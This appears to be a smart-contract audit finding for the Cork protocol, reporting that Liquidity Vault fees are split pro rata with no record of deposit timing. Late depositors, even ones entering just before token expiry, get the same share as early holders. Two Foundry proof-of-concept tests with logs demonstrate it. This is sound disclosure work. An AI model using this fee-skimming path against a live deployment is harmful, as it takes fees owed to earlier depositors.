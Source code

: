 Colossal Magenta Elk

High

# LV token holders receive proportional fees, when they shouldn't

### Summary

The Corc protocol claims that the LV token holders should accrue fees that the protocol generates, from the docs: *In our design we envision several mechanisms through which the Liquidity Vault will generate revenues. Some of these are from protocol fees that will flow to the Liquidity Vault and accrue to Liquidity Vault tokenholders.* However, the fee accrual is incorrect, a user can deposit just before fees are about to be distributed to LV holders, and still receive the same amount of fees as a user who deposited tokens in the beginning. There is one LV token per RA:PA pair, however the CT and DS tokens expire and there may be several CT and DS tokens issued by the protocol. Users can mint an LV token via the [Vault::depositLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L33-L37) function, by depositing the corresponding RA asset. The first issue is that if User A mints a LV token, and request to redeem it, then some fees from swapping in the AMM pair for the CT and RA token are generated, or the protocol collects fees from users utilizing its functionality, then a User B mints a LV token, and request to redeem it, both users will accrues the same amount of fees generated by the protocol, when this shouldn't be the case. As the first users has had his request for redeem for a much longer period, risking the price of the RA token dropping significantly, while User B may just call the [Vault::depositLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L33-L37) function the last block before the CT and DS tokens expire, and request a redeem immediately. Then in the next block when the CT and DS tokens have already expired he can claim the same amount of fees as User A, this is demonstrated in the first POC. To better illustrate the second problem consider the following example
-  User A and User B minted LV tokens while the first issued CT and DS tokens were still not expired
-  The UniV2 pair generated some fees
- The protocol collects fees, from users utilizing its functionality
-  The issued CT and DS tokens expired
-  The protocol issued new CT and DS tokens
-  User C mints some LV tokens
-  The UniV2 pair generates some more fees, 

The fees will be split equally between all the users (of course taking into account the amount of LV tokens they hold).

### Root Cause

The protocol doesn't implement any mechanism to track when users minted LV tokens, or when they requested a redemption of their LV tokens, or what rewards were accrued to the current LV holders.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Fees are distrusted incorrectly, users who have held LV tokens since the beginning will receive an equal amount of fees with users who deposit much later, even if no fees are generated by the protocol since the last user deposited. The last users to deposit are effectively stealing fees from the users who deposited earlier.

### PoC
[Gist](https://gist.github.com/AtanasDimulski/3f9bfc84c63e1c977b877613b644c0e2)
After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/3f9bfc84c63e1c977b877613b644c0e2) add the following tests to the ``AuditorTests.t.sol`` file:

<details>
  <summary>POC 1</summary>

```solidity
    function test_IncorrectFeeAccrural() public {
        vm.startPrank(alice);
        WETH.mint(alice, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        /// @notice add 1e18 WETH to the amm pair, imagine this is generated from fees
        IUniswapV2Pair univ2Pair = flashSwapRouter.getUniV2pair(id, 1);
        WETH.mint(address(univ2Pair), 1e18);

        vm.startPrank(bob);
        WETH.mint(bob, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        /// @notice skip 1100 seconds so the CT and DS tokens expire
        skip(1100);

        vm.startPrank(alice);
        console2.log("WETH balance of alice before she redeems: ", WETH.balanceOf(alice));
        moduleCore.redeemExpiredLv(id, alice, 1e18);
        console2.log("WETH balance of alice after she has redeemed: ", WETH.balanceOf(alice));
        vm.stopPrank();

        vm.startPrank(bob);
        console2.log("WETH balance of bob before he redeems: ", WETH.balanceOf(bob));
        moduleCore.redeemExpiredLv(id, bob, 1e18);
        console2.log("WETH balance of bob after he has redeemed: ", WETH.balanceOf(bob));
        assertEq(WETH.balanceOf(alice), WETH.balanceOf(bob));
        vm.stopPrank();
    }
```

```solidity
Logs:
  WETH balance of alice before she redeems:  0
  WETH balance of alice after she has redeemed:  1499999999999998497
  WETH balance of bob before he redeems:  0
  WETH balance of bob after he has redeemed:  1499999999999998497
```

To run the test use: ``forge test -vvv --mt test_IncorrectFeeAccrural``
</details>

<details>
  <summary>POC 2</summary>

```solidity
    function test_IncorrectFeeAccruralBetweenDSIssuings() public {
        vm.startPrank(alice);
        WETH.mint(alice, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        /// @notice add 1e18 WETH to the amm pair, imagine this is generated from fees
        IUniswapV2Pair univ2Pair = flashSwapRouter.getUniV2pair(id, 1);
        WETH.mint(address(univ2Pair), 1e18);

        vm.startPrank(bob);
        WETH.mint(bob, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        vm.startPrank(owner);
        /// @notice the first issuance of DS and Ct tokens expires
        skip(1100);
        corkConfig.issueNewDs(id, block.timestamp + expiry, 1e18, 5e18);
        vm.stopPrank();

        vm.startPrank(tom);
        WETH.mint(tom, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        /// @notice add 1e18 WETH to the amm pair, imagine this is generated from fees
        WETH.mint(address(univ2Pair), 0.3e18);
        skip(1100);

        vm.startPrank(alice);
        console2.log("WETH balance of alice before she redeems: ", WETH.balanceOf(alice));
        moduleCore.redeemExpiredLv(id, alice, 1e18);
        console2.log("WETH balance of alice after she has redeemed: ", WETH.balanceOf(alice));
        vm.stopPrank();
        
        vm.startPrank(bob);
        console2.log("WETH balance of bob before he redeems: ", WETH.balanceOf(bob));
        moduleCore.redeemExpiredLv(id, bob, 1e18);
        console2.log("WETH balance of bob after he has redeemed: ", WETH.balanceOf(bob));
        assertEq(WETH.balanceOf(alice), WETH.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(tom);
        console2.log("WETH balance of tom before he redeems: ", WETH.balanceOf(tom));
        moduleCore.redeemExpiredLv(id, tom, 1e18);
        console2.log("WETH balance of tom after he has redeemed: ", WETH.balanceOf(tom));
        assertEq(WETH.balanceOf(alice), WETH.balanceOf(tom));
        vm.stopPrank();
    }
```

```solidity
Logs:
  WETH balance of alice before she redeems:  0
  WETH balance of alice after she has redeemed:  1333333333333331663
  WETH balance of bob before he redeems:  0
  WETH balance of bob after he has redeemed:  1333333333333331663
  WETH balance of tom before he redeems:  0
  WETH balance of tom after he has redeemed:  1333333333333331663
```

To run the test use: ``forge test -vvv --mt test_IncorrectFeeAccruralBetweenDSIssuings``
</details>

### Mitigation

_No response_